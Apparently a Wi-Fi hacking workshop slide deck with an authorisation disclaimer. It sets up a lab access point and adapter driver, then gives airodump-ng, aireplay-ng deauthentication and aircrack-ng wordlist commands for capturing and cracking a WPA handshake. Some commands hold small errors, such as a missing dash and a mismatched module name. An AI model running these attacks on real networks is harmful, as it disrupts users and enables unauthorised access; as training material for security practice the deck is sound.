 # Wi\-Fi Hacking Workshop

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

link: [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

enter these commands in the terminal:

sudo apt\-get update

sudo apt\-get install linux\-headers\-$\(uname \-r\)

Git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

Cd rtl8812au

make

sudo insmod 8812au\.ko

sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless

sudo depmod

sudo apt\-get install build\-essential dkms

sudo make dkms\_install

echo 8192eu | sudo tee \-a /etc/modules

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

Check for conflicting processes

Start the wireless adapter in monitor mode

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

![](img/WifiHackingWorkshop4.png)

<span style="color:#000000">s</span>  <span style="color:#000000">udo airodump\-ng \-c 11 wlan0</span>

### Discovering devices

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0

![](img/WifiHackingWorkshop6.png)

### Cracking Password

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap

![](img/WifiHackingWorkshop7.png)

